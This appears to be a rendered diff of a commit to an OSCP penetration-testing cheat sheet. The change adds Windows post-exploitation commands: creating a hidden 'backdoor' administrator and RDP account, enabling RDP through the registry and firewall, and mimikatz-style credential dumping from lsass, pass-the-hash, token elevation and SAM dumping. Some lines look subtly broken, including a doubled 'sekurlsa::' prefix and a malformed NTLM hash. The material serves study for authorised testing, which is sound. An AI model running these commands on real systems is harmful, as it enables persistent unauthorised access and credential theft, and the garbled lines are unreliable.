

Before and after one commit to rottaj/Rotta-Rocks, a Markdown page: ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md, the part around the change. Shown at 94% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
GITBOOK-217: change request with no subject merged in GitBook

````diff
--- a/ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md
+++ b/ethical-hacking/templates-and-cheat-sheets/oscp-cheat-sheet.md
@@ -1495,3 +1495,55 @@ and now we can run `klist` in order to print the current available tickets
 ```
 klist
 ```
+
+**Add RDP users**
+
+```
+net user backdoor password123! /add
+net localgroup administrators backdoor /add
+net localgroup "Remote Desktop Users" backdoor /add
+```
+
+**Enable RDP**
+
+```
+via registry
+
+reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
+
+Add firewall policy
+
+netsh firewall set service remoteadmin enable
+netsh firewall set service remotedesktop enable
+```
+
+**Password and hash Extract passwords, keys, pin codes, tickets from lsass memory**
+
+```
+privilege::debug log sekurlsa.log sekurlsa::logonpasswords
+```
+
+Pass-the-hash
+
+```
+
+privilege::debug
+log sekurlsa.log
+sekurlsa::sekurlsa::pth /user:Administrator /domain:acme /ntlm:893efccda23744616cf7accab23ascbb /run:cmd
+```
+
+Elevate token
+
+```
+privilege::debug
+log sekurlsa.log
+token::elevate
+```
+
+Dump SAM
+
+```
+privilege::debug
+log sekurlsa.log
+lsadump::sam
+```
````
